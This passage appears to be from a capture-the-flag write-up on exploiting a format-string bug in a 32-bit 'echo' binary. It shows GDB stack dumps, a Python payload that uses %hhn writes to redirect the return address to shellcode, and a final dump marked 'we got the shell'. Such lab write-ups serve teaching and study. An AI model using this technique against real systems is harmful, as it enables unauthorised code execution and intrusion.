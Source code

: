 ```sh
00:0000| esp 0xffa4a630 --> 0x804a480 (' ' <repeats 150 times>, "a\n")
01:0004|     0xffa4a634 --> 0x400
02:0008|     0xffa4a638 --> 0x804a080 ("%1$151x%4$hhn\n")
03:0012|     0xffa4a63c --> 0xa (b'\n')
04:0016|     0xffa4a640 --> 0x1
05:0020|     0xffa4a644 --> 0x0
06:0024| ebp 0xffa4a648 --> 0xffa4a668 --> 0xffa4a697 --> 0xa4a72cff
07:0028|     0xffa4a64c --> 0x804852c (<echo+11>:       mov    DWORD PTR [esp],0x804a480)
08:0032|     0xffa4a650 --> 0xf7701ac0 --> 0xfbad2884
09:0036|     0xffa4a654 --> 0xf7735480 (pop    edx)
10:0040|     0xffa4a658 --> 0xffa4a6b4 --> 0xf7701000 --> 0x1a5da8
11:0044|     0xffa4a65c --> 0xf7701000 --> 0x1a5da8
12:0048|     0xffa4a660 --> 0x0
13:0052|     0xffa4a664 --> 0x0
14:0056|     0xffa4a668 --> 0xffa4a697 --> 0xa4a72cff
15:0060|     0xffa4a66c --> 0x8048557 (<main+16>:       mov    eax,ds:0x804a040)
16:0064|     0xffa4a670 --> 0x804a080 ("%1$151x%4$hhn\n")
17:0068|     0xffa4a674 --> 0x400
18:0072|     0xffa4a678 --> 0xf7701c20 --> 0xfbad2088
19:0076|     0xffa4a67c --> 0xf7701000 --> 0x1a5da8
20:0080|     0xffa4a680 --> 0x8048580 (<__libc_csu_init>:       push   ebp)
21:0084|     0xffa4a684 --> 0x0
22:0088|     0xffa4a688 --> 0xffa4a66c --> 0x8048557 (<main+16>:        mov    eax,ds:0x804a040)
23:0092|     0xffa4a68c --> 0xffa4a66d --> 0x80080485
24:0096|     0xffa4a690 --> 0xffa4a66e --> 0xa0800804
25:0100|     0xffa4a694 --> 0xffa4a66f --> 0x4a08008
```

Overwrite return address:
```python
   s = shellcode \
    +'%'+'1$'+str(0x80 -len(shellcode)) +'x%20$hhn' \
    +'%'+'1$'+str(0xa0 -0x80) +'x%21$hhn' \
    +'%'+'1$'+str(0x104 -0xa0) +'x%22$hhn' \
    +'%'+'1$4x%23$hhn' \
    +'\n'

    sock.sendall(s)
```

Stack context:
```sh
[------------------------------------code------------------------------------]
   0x804853d <echo+28>: mov    DWORD PTR [esp],eax
   0x8048540 <echo+31>: call   0x80483a0 <fflush@plt>
   0x8048545 <echo+36>: leave
=> 0x8048546 <echo+37>: ret
   0x8048547 <main>:    push   ebp
   0x8048548 <main+1>:  mov    ebp,esp
   0x804854a <main+3>:  and    esp,0xfffffff0
   0x804854d <main+6>:  sub    esp,0x10
[-----------------------------------stack------------------------------------]
00:0000| esp 0xffa4a66c --> 0x804a080 --> 0xdb31c031  <= we got the shell
01:0004|     0xffa4a670 --> 0x804a080 --> 0xdb31c031
02:0008|     0xffa4a674 --> 0x400
03:0012|     0xffa4a678 --> 0xf7701c20 --> 0xfbad2088
04:0016|     0xffa4a67c --> 0xf7701000 --> 0x1a5da8
05:0020|     0xffa4a680 --> 0x8048580 (<__libc_csu_init>:       push   ebp)
06:0024|     0xffa4a684 --> 0x0
07:0028|     0xffa4a688 --> 0xffa4a66c --> 0x804a080 --> 0xdb31c031
[----------------------------------------------------------------------------]
```
